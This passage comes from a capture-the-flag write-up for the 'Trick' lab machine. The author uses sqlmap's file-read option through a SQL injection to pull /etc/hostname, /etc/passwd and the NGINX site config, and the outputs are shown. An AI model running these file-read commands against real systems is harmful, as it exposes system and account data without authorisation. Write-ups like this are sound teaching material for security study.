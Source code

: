 SQL can be configured such that I can read files through the injection.
`sqlmap` allows this with the `--file-read` parameter. It works:

    
    
    oxdf@hacky$ sqlmap -r login.req --batch --threads 10 --file-read=/etc/hostname
    ...[snip]...
    [*] /home/oxdf/.sqlmap/output/preprod-payroll.trick.htb/files/_etc_hostname (same file)
    ...[snip]...
    oxdf@hacky$ cat /home/oxdf/.sqlmap/output/preprod-payroll.trick.htb/files/_etc_hostname 
    trick
    

I’ll read the `/etc/passwd` file the same way. It takes a few minutes, but it
comes back. I’ll look for users that have a shell set (removing the machine
accounts), and see a couple:

    
    
    oxdf@hacky$ cat /home/oxdf/.sqlmap/output/preprod-payroll.trick.htb/files/_etc_passwd | grep sh$
    root:x:0:0:root:/root:/bin/bash
    michael:x:1001:1001::/home/michael:/bin/bash
    

### Find Marketing Subdomain

#### Via SQL Injection

The intended path for this box is to use the SQL injection file read to get
the NGINX config. I know it’s NGINX from the initial enumeration. The default
config file would be at `/etc/nginx/sites-enabled/default`. I’ll pull that
file with `sqlmap`, and it returns information about three virtual hosts
(vhosts).

The first is for `trick.htb`, and it’s the default server, which is why
visiting by IP leads there as well:

    
    
    server {
            listen 80 default_server;
            listen [::]:80 default_server;
            server_name trick.htb;
            root /var/www/html;
    
            index index.html index.htm index.nginx-debian.html;
    
            server_name _;
    
            location / {
                    try_files $uri $uri/ =404;
            }
    
            location ~ \.php$ {
                    include snippets/fastcgi-php.conf;
                    fastcgi_pass unix:/run/php/php7.3-fpm.sock;
            }
    }
    
